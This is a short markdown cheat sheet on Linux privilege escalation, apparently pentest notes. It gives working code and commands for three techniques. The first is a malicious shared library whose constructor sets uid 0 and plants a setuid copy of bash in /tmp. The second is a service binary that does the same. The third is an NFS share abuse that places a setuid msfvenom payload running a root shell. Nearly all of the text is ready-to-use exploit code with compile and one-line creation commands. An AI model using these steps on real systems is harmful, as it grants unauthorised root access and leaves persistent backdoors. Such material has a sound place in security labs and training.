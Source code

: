 ## Compiling a shared library running bash shell
- Use `strace` to search for not found shared libraries in the application running by root.
- `bash_shared.c`:
```C
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));
void inject() {
	setuid(0);
	system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash"); // Or /bin/bash -p
}
```
- Or create the file in one line:
```bash
echo -e "#include <stdio.h>\n#include <stdlib.h>\nstatic void inject() __attribute__((constructor));\nvoid inject() {\nsetuid(0);\nsystem(\"cp /bin/bash /tmp/bash && chmod +s /tmp/bash\");}" > bash_shared.c
```
- Compile it to the .so shared library file:
```bash
gcc -shared -fPIC -o <library_name>.so bash_shared.c
```

## Compiling a service running bash shell
- `bash_service.c`:
```C
int main() {
	setuid(0);
	system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash"); // Or /bin/bash -p
}
```
- Or create the file in one line:
```bash
echo -e "int main() {\nsetuid(0);\nsystem(\"cp /bin/bash /tmp/bash && chmod +s /tmp/bash\");}" > bash_service.c
```
- Compile it to the service file:
```bash
gcc -o <service_name> bash_service.c
```

## Permissions modification in NFS
- Mount the NFS share:
```bash
mkdir /tmp/mounted_share
sudo mount -t nfs <ip>:<share_name> /tmp/mounted_share/ -nolock
```
- Prepare the shell:
```bash
sudo msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/mounted_share/shell.elf
```
- Add permissions:
```bash
sudo chmod +xs /tmp/mounted_share/shell.elf
```
- Run bash from the low privileged user on the target machine:
```bash
./shell.elf
```
